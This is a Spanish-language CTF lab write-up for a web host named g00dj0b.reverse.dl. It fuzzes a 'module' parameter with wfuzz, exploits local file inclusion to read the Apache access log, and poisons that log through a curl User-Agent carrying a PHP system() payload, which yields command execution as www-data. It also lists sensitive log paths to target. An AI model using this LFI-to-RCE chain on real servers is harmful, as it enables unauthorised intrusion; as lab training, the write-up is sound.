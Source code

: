Revisando el codigo fuente tenemos:
```bash
<li><a href="[daily_idea.php](view-source:http://g00dj0b.reverse.dl/daily_idea.php)">Idea del Día</a></li>
<li><a href="[lab.php](view-source:http://g00dj0b.reverse.dl/lab.php)">Laboratorio</a></li>
<li><a href="[community.php](view-source:http://g00dj0b.reverse.dl/community.php)">Comunidad</a></li>
<li><a href="[resources.php](view-source:http://g00dj0b.reverse.dl/resources.php)">Recursos</a></li>
<li><a href="[experiments.php?module=./modules/default.php](view-source:http://g00dj0b.reverse.dl/experiments.php?module=./modules/default.php)">Experimentos Interactivos</a></li>
```

Ingresando a esta url tenemos lo siguiente:
```bash
http://g00dj0b.reverse.dl/experiments.php?module=./modules/default.php
```

Realizaremos un ataque de **fuzzing** para determinar si es vulnerable el parametro module:
```bash
http://g00dj0b.reverse.dl/experiments.php?module=
```

### Ejecucion del Ataque
```bash
# Comandos para explotación
wfuzz -c -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://g00dj0b.reverse.dl/experiments.php?module=FUZZ" --hw 28,13,0
```

Tenemos un **LFI** de manera que intentaremos ver si podemos acceder a una de estas rutas:

| Ruta                          | Descripción               | Explotación            |
| ----------------------------- | ------------------------- | ---------------------- |
| `/var/log/apache2/access.log` | Logs de acceso de Apache  | Log Poisoning/RCE      |
| `/var/log/apache2/error.log`  | Logs de error de Apache   | Log Poisoning/RCE      |
| `/var/log/nginx/access.log`   | Logs de acceso de Nginx   | Log Poisoning/RCE      |
| `/var/log/auth.log`           | Logs de autenticación     | Credenciales filtradas |
| `/var/log/syslog`             | Log principal del sistema | Información diversa    |
| `/var/log/mail.log`           | Logs de correo            | Información de correo  |
Tenemos exito con una ya que nos permite ver los **logs** del sistema asi que lo podemos derivar a un **LogPoisoning**
```bash
http://g00dj0b.reverse.dl/experiments.php?module=/var/log/apache2/access.log
```

Ahora envenenaremos los **logs** del sistema:
```bash
curl -s X GET http://172.17.0.2/ -A '<?php system("id") ?>'
```

En el log veremos que se a ejecutado correctamente nuestro comando::
```bash
un/2025:20:15:11 +0000] "GET /experiments.php?module=/var/log/apache2/access.log HTTP/1.1" 200 483 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" 172.17.0.1 - - [10/Jun/2025:20:15:48 +0000] "GET / HTTP/1.1" 200 2030 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm) "
```

